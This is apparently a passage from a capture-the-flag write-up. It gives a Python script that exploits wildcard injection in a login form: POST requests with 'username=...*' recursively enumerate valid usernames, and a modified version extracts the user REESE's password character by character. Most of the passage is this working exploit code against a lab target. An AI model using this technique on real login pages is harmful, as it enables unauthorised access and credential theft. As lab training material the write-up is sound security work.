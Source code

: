 ```python
    'Connection': 'close',
    'Referer': 'http://68.183.41.74:31495/login',
    'Upgrade-Insecure-Requests': '1',
}

longstrings = []

def longestChildren(s):
    data = f'username={s}*&password=*'
    response = requests.post('http://68.183.41.74:31495/login', headers=headers, data=data, allow_redirects=False)
    # If this POST was unsuccessful, then this is not a valid substring.
    if (len(s) >= maxLength or response.status_code not in matchCodes):
        return
    # If the response contains any of the filter text, reject it
    for badStr in filterLocation:
        if response.headers['Location'].find(badStr) >= 0:
            return
    print(f"Found: {s}")
    if s[:-1] in longstrings:
        longstrings.remove(s[:-1])
    longstrings.append(s)
    for c in alphabet:
        longestChildren(s+c)

print('----------------------------------')

longestChildren('')
print("Completed. Matching substrings: ")
for s in longstrings:
    print(s)
```

Running the above script, the results should start rolling in...

![findingUser](findingUser.png)

Nice, we had expected to find Reese as a user, this confirms it.

Modify the above script: expand the alphabet (passwords can have a more characters, special characters, etc), and change which fields are used in the request

```python
alphabet = [c for c in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^()_+}{"]
...
data = f'username=REESE&password={s}*'
```

Run the modified script to extract the password (I have not shown the whole execution):

![findingPass](findingPass.png)
